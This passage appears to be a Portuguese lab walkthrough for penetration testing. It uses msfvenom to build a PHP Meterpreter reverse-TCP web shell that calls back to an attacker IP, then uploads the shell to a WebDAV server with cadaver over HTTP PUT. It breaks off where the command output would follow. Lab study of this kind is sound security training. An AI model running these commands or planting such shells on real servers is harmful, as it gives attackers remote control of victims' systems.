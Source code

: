 ![Comando](./lab-n-2.png)

```bash
$ msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.10.10 lport=5555 -f raw > webshell.php
```
Obs: 192.168.10.10 ip do atacante.

Isso gerará o código PHP para o shell reverso. Copie o código do payload e salve-o como um arquivo chamado webshell.php na sua máquina Kali.

##### Exploint usando um Método HTTP PUT com cadaver

1. Usando o Cadaver para Upload de Arquivos
 - O Cadaver é uma ferramenta de linha de comando pré-instalada no Kali Linux que permite o upload e download de arquivos de servidores WebDAV.
  Para usar o Cadaver para fazer upload do arquivo webshell.php, siga estes passos:

2. Abra o terminal no Kali Linux e execute:
```bash 
$ cadaver http://192.168.100.11/dav/

dav:/dav/> put webshell.php

```
Retorno: 
